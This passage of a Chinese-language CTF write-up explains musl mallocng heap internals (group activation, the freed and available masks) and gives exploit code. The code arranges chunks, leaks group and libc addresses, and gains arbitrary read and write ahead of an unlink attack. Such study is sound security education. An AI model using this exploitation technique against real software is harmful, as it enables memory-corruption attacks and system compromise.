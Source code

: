 当一个group中所有的chunk均被释放时，在释放最后一个chunk时会调用到`free_group`函数将group释放，这是我们不希望看到的，因此在堆排布的过程中，我们不应该让一个meta中的所有chunk在某一时刻全部被释放。

另外注意到，`malloc`函数在选择chunk时不会去选择刚刚被`free`的chunk，因为此时代表该chunk的bit只在`freed_mask`中为1，在`avail_mask`中为0。

```c
static inline uint32_t activate_group(struct meta *m)
{
	assert(!m->avail_mask);
	uint32_t mask, act = (2u<<m->mem->active_idx)-1;
	do mask = m->freed_mask;
	while (a_cas(&m->freed_mask, mask, mask&~act)!=mask);
	return m->avail_mask = mask & act;
}
```

而`activate_group`函数则可以将`free_mask`中的所有chunk变为`avail_mask`。这个函数触发的条件是：**这个group的`avail_mask`为0，该group中不是被free的chunk就是正在使用的chunk**。因此，想要分配到已经被free的结构体所在的chunk，就应该首先让这个group中的chunk全部被分配一次。

考虑到本题使用的是`calloc`而不是`malloc`，因此堆排布的目标应该是让一个结构体的value指向另一个结构体，而且不能分配到原来结构体所在的chunk。可行的方法是：

- Step 1: 分配第1个storage结构体
- Step 2: 进行堆空间排布
- Step 3: 分配第2个storage结构体使得storage结构体本身位于其value的后面
- Step 4: delete第2个storage
- Step 5: 分配第3个storage结构体使得这个结构体的chunk就是第2个storage的value
- Step 6: 对第2个storage调用query以获得第3个storage结构体中的指针等

这里需要进行计算，让两个不同的key值具有相同的哈希值，这个不难实现，因为最终结果是12比特，穷举即可。

```py
                                                    # 6543210
store(b'A', b'9889')                                # AAAAAAU
for i in range(5):
    query(b'A' * 0x30)                              # AFFFFFU
store(b'B', b'A' * 0x30)                            # UAAAAUU
store(find_collision(b'B'), b'B')                   # UAAAUUU
delete(b'B')                                        # FAAAUFU
for i in range(3):
    query(b'A' * 0x30)                              # FFFFUFU -> AAAAUAU
store(b'C', b'C' * 0x1000)                          # AAAUUUU
query(b'B')
```

如上面的代码片段所示，即可通过query操作打印出最后一个store创建的结构体的信息。最后一个store的value地址就在当前的group中，根据这个值可以获取该group的地址。注意这里的最后一次store分配了一个大空间，这会让musl在libc地址正下方mmap一块空间，这样我们可以通过这个地址获取到libc的基地址。在此之后，我们只需要重复地通过query操作修改第二次store获得的storage中的value地址，即可实现任意地址读。因为此时我们可以根据获取的两个地址推导出第二个storage中的关键字段的值。在第一次leak之后，7个chunk索引从高到低的状态应该依次为：AAAAUUU（A可用，U正用，F释放），其中第7个是第二个storage结构体保存的位置，那么我们可以先用3个无效的query让状态变为AFFFUUU，然后就可以使用query操作来修改第二个storage结构体的值，最后再一次query进行任意写。

由此，我们可以获取到`meta_area`的`secret`值，libc的基地址等关键信息，之后就要开始使用unlink进行利用了。

```py
leak = hex2bytes(io.recvline().split(b":")[1])
group_addr = u64(leak[0:8]) - 0x70
smallchunk = group_addr + 0x30
mmap_addr = u64(leak[8:16]) - 0x20
enc = u64(leak[32:40]) - 1
libc_base = mmap_addr + 0x4000

for i in range(3):
    query(b'B' * 0x30)
query(p64(smallchunk) + p64(group_addr) + p64(1) + p64(0x30) + p64(enc) + p64(0), key_size=0x30)
query(b'B')

leak = hex2bytes(io.recvline().split(b":")[1])
meta_addr = u64(leak[0:8])
meta_area = meta_addr & 0xFFFF_FFFF_FFFF_F000
info('meta_area: ' + hex(meta_area))
```